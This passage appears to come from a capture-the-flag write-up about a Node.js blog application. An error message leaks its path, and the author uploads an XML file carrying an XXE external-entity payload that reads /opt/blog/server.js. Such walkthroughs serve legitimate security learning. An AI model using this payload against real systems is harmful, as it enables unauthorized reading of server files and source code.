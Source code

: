 Now we can try to view the contents of the server source code. But we don’t know the source code is located in the server.

While I was trying to figure out the location of the source code, I got the following error, when I typed the syntax of the JSON data that we enter in the request during login:

<figure><img src="../../.gitbook/assets/Untitled 17 (15).png" alt=""><figcaption></figcaption></figure>

From the error I got, we can see that the blog application is located at `/opt/blog`. Since this is a Node.js application, most developers will name their main server file as any one of the following:

* index.js
* server.js

I tried to look out for the `server.js` in the `/opt/blog` location by uploading the following XML file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///opt/blog/server.js"> ]>

<post>
	<title>xml payload to extract the contents of /opt/blog/server.js file</title>
	<description>&xxe;</description>
	<markdown>Example Markdown</markdown>
</post>
```

And we got the contents of the server.js file.
